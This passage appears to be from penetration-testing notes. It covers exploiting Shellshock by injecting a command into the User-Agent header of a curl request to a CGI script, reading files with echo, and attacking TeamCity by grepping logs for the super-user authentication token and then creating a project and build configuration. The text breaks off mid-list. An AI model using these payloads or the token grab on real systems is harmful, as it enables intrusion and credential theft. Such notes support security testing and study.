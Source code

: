 ![image](https://github.com/user-attachments/assets/c6adac8b-c767-4656-a1b1-3b7f9f1eb75a)

- It happens if `/usr/bin` is not added to the PATH environmental variable

  ![image](https://github.com/user-attachments/assets/17b40813-87eb-48e9-9cc7-f27f871a0125)

- Add it to the path with

      export PATH=/usr/bin:$PATH

![image](https://github.com/user-attachments/assets/60592489-d0dd-41a7-a944-022247589547)

--------------------------

### Exploiting Shellshock

- Inject payload in `User-Agent` header

      curl -i -H "User-agent: () { :;}; echo; [command]" [host]/[cgi_script]

- The binary path should be detailed to execute shell commands e.g `/bin/ls` or `/bin/cat`

![image](https://github.com/user-attachments/assets/7542f360-aeb5-4355-a2ea-cc30d3644928)


--------------------

### REFERENCES:

- [Shellshock in cgi scripts](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)

--------------------

### READING FILES WITH ECHO

- Use

      echo "$(<[filename])"

---------------------

### PENTESTING TEAM CITY

- Grep for super token with ` grep -rni 'authentication token' TeamCity/logs 2</dev/null`

![image](https://github.com/user-attachments/assets/861f4f8e-43de-4b16-8ea2-92ffa727aaa3)

### Exploit with this steps

- Create a new project, pick "manually"

![image](https://github.com/user-attachments/assets/e0a9ec77-75e0-4dce-96f0-010b60570c8a)

- Create a build configuration
